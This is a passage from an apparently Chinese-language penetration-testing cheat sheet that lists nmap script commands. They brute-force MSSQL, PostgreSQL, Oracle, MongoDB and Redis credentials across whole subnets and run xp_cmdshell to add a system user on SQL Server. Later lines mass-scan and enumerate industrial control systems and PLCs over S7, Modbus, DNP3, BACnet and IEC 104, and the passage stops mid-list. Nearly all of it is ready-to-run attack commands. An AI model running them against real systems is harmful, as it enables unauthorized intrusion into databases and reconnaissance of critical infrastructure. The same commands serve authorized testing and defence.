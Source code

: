 - mssql
    - 信息收集 : `nmap -p 1433 --script ms-sql-info --script-args mssql.instance-port=1433 <target ip>`
    - 扫描 sa 空密码 : `nmap -p 1433 --script ms-sql-empty-password.nse -v <target ip>/24`
    - sa 弱口令爆破 : `nmap -p 1433 --script ms-sql-brute.nse -v <target ip>/24`
    - 利用 xp_cmdshell,远程执行系统命令 : `nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=sa,ms-sql-xp-cmdshell.cmd=net user test test add <target ip>/24`

- postgresql
    - 爆破 : `nmap -p 5432 --script pgsql-brute -v <target ip>/24`

- oracle
    - 信息收集 : `nmap --script oracle-tns-version -p 1521 <target ip>`
    - 爆破 : `nmap --script oracle-brute-stealth -p 1521 --script-args oracle-brute-stealth.sid=ORCL  -v <target ip>/24`
    - 爆破 : `nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=ORCL -v <target ip>/24`

- mongdb
    - 爆破 : `nmap -p 27017  --script mongodb-brute <target ip>/24`

- redis
    - 爆破 : `nmap -p 6379 --script redis-brute.nse <target ip>/24`

---

### 工控探测

- S7
    - 探测 : `nmap -p 102 --script s7-info.nse <target ip>`

- modbus
    - 探测 : `nmap -sV -p 502 --script modbus-discover <target ip>`

- EthernetIP
    - 探测 : `nmap -p 44818 --script enip-info.nse <target ip>`

- NiagaraFox
    - 探测 : `nmap -p 1911 --script fox-info <target ip>`

该项目提供大量探测脚本 [digitalbond/Redpoint](https://github.com/digitalbond/Redpoint)
- 识别和枚举 BACnet 设备 : `nmap --script BACnet-discover-enumerate.nse -sU  -p 47808 <target ip>`
- 探测 CoDeSyS V2 控制器 : `nmap -p 1200,2455 --script codesys-v2-discover <target ip>`
- 探测 EthernetIP 设备 : `nmap -p 44818 --script enip-enumerate.nse <target ip>`
- 识别并枚举施耐德电气 Modicon PLC : `nmap --script modicon-info -p 502 <target ip>`
- 识别并枚举 Omron PLC
    - `nmap --script ormontcp-info -p 9600 <target ip>`
    - `nmap --script ormonudp-info -sU -p 9600 <target ip>`
- 识别并枚举启用 PC Worx 协议的 PLC : `nmap --script pcworx-info -p 1962 <target ip>`
- 识别并枚举支持 ProConOS 的 PLC : `nmap --script proconos-info -p 20547 <target ip>`
- 探测 S7 : `nmap -p 102 --script s7-enumerate.nse <target ip>`

该项目提供工控常见协议识别脚本 [hi-KK/ICS-Protocol-identify](https://github.com/hi-KK/ICS-Protocol-identify)
- Siemens S7 : `nmap -sS -Pn -n --min-hostgroup 1024 --min-parallelism 1024 -p 102 --script s7-info -iL 123.txt -oX 123.xml`
- Modbus : `nmap -sS -Pn -p 502 --script modicon-info -iL 123.txt -oX 123.xml`
- IEC 60870-5-104
    - `nmap -Pn -n -d --script iec-identify.nse  --script-args='iec-identify.timeout=500' -p 2404 <host>`
    - `nmap -Pn -n --min-hostgroup 1024 --min-parallelism 3000 -d --script iec-identify-2014.nse  --script-args='iec-identify.timeout=500' -p 2404 -iL 2404.txt -oX 2404.xml`
- DNP3
    - `nmap --script dnp3-info -p 20000 <host>`
    - `nmap -Pn -n --min-hostgroup 1024 --min-parallelism 3000 --script dnp3-info.nse -p 20000 -iL 20000.txt -oX 20000.xml`
- EtherNet/IP
    - `nmap --script enip-info -sU  -p 44818 <host>`
    - `nmap -Pn -n -sU --min-hostgroup 1024 --min-parallelism 3000 --script enip-info.nse -p 44818 -iL 44818.txt -oX 44818.xml`
- BACnet